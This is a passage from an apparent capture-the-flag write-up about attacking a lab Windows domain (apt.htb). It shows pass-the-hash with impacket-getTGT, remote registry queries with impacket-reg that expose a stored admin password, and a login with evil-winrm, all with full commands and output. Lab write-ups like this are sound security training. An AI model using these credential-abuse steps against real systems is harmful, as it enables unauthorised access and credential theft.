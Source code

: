 ```
$ impacket-getTGT htb.local/henry.vinson -hashes :e53d87d42adaa3ca32bdb34a876cbffb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in henry.vinson.ccache
$ export KRB5CCNAME=henry.vinson.ccache
```

Also, we can use this hash to connect to RPC or view the registry using Impacket tools. Digging around the Impacket suite of tools, we find `impacket-reg` which can be used to query the registry.

The hardest part was finding the name of the registry to query. Most examples online used `HKLM\\SOFTWARE` or `HKCU\\SOFTWARE`. Our target should be the current user registry. It was this article that introduced me to `HKU` being another name:

{% embed url="https://www.pdq.com/blog/modify-the-registry-of-another-user/" %}

This works with `reg.py`:

```
$ impacket-reg htb.local/henry.vinson@apt.htb -hashes aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU\\SOFTWARE -s
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
SOFTWARE\GiganticHostingManagementSystem\
        UserName        REG_SZ   henry.vinson_adm
        PassWord        REG_SZ   G1#Ny5@2dvht
<TRUNCATED>
```

Then, we can `evil-winrm` in:

<figure><img src="../../../.gitbook/assets/image (1337).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Finding Defences
